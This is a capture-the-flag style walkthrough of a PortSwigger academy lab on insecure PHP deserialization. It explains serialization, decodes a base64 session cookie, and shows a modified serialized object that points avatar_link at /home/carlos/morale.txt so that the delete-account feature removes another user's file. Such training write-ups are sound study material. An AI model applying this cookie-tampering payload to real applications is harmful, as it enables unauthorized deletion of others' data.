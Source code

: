 #+title: Insecure Deserizalization
#+description: This lab is from portswigger academy

* Lab

https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization

- Credentials:
            wiener:peter

** Objective
- Delete file at /home directory of Carlos user
- Do that with modifications at deserialized object from Cookie

* What is serialization ?
 Serialization is the process of converting complex data structures, such as objects and their fields, into a "flatter" format that can be sent and received as a sequential stream of bytes.

 Crucially, when serializing an object, its state is also persisted. In other words, the object's attributes are preserved, along with their assigned values.

*** Serialization vs Deserialization
Deserialization is the process of restoring this byte stream to a fully functional replica of the original object, in the exact state as when it was serialized.

The website's logic can then interact with this deserialized object, just like it would with any other object.

* Deserialized object

- At web page lab, CTRL + SHIFT + i to open ~dev tools~
  - Get the sessions cookie at ~dev tools~
    Application > storage > Cookies
  - The cookie are Base64 encode, at terminal ->
-----
        #+begin_src sh
echo 'Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJoaG5sYWJzZzlpcW1kNTMycXRya3h5eXRxNHQzMXhiYiI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=' | base64 -d
    #+end_src

 - And we get an deserialized Object ->

  #+begin_src
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hhnlabsg9iqmd532qtrkxyytq4t31xbb";s:11:"avatar_link";s:19:"users/wiener/avatar";}
 #+end_src

O -> Object
s -> String
s:3 -> string lenght
; -> separator

- We can modify that object, encode base64 again, and send to web page at our original cookie place, with ~dev tools~

* Customized object

- Customize the user home path at cookie to carlos /home directory

  #+begin_src
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"hhnlabsg9iqmd532qtrkxyytq4t31xbb";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
#+end_src

  Now when click at delete account func, the deleted account will be carlos account

  !
